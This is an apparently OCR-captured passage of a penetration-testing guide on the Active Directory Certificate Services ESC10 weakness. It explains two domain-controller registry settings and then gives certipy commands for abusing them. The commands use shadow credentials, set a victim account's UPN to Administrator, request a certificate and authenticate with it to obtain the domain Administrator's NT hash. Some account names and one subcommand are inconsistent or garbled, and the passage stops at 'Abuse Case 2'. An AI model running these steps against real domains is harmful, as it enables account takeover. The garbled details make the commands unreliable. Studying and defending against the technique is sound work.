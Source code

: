 #### Explanation

Two Registry key values on the DC are referred to by ESC10
* The default value for 'CertificateMappingMethods' under 'HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\Schannel' is '0x18' ('0x8' | '0x10'), previously set to '0x1F'.  
* The default setting for 'StrongCertificateBindingEnforcement' under 'HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Kdc' is '1', previously '0'.  

#### Case 1

When 'StrongCertificateBindingEnforcment' is configured to '0'.

#### Case 2

If 'CertificateMappingMethods' includes the 'upn' bit ('0x4).  

### Abuse Case 1

With StrongCertificateBindingEnforcement configured as 0, an account A with 'GenericWrite' permissions can be exploited to compromise any account B.

For instance, having 'GenericWrite' permissions over 'mark.bbond@mirage.htb', an attacker aims to compromise 'Administrator@corp.local'. The procedure mirrors ESC9, allowing any certificate template to be utilized.

Initially, 'mark''s hash is retrieved using Shadow Credentials, exploiting the 'GenericWrite'.  

```bash
certipy shadow autho -username john@corp.local -p Passw0rd! -a Jane
```
Subsequently, 'Jane''s 'userPrincipalName' is altered to 'Administrator', deliberately omitting the '@corp.local' portion to avoid a constraint violation.

```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Administrator
```

Following this, a certificate enabling client authentication is requested as Jane, using the default User template.

```bash
certipy req -ca 'corp-DC-CA' -username Jane@corp.local -hashes <hash>
```

Jane's userPrincipalName is then reverted to its original, Jane@corp.local.

```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Jane@corp.local
```

Authenticating with the obtained certificate will yield the NT hash of Administrator@corp.local, necessitating the specification of the domain in the command due to the absence of domain details in the certificate.

```bash
certipy auth -pfx administrator.pfx -domain corp.local
```
### Abuse Case 2
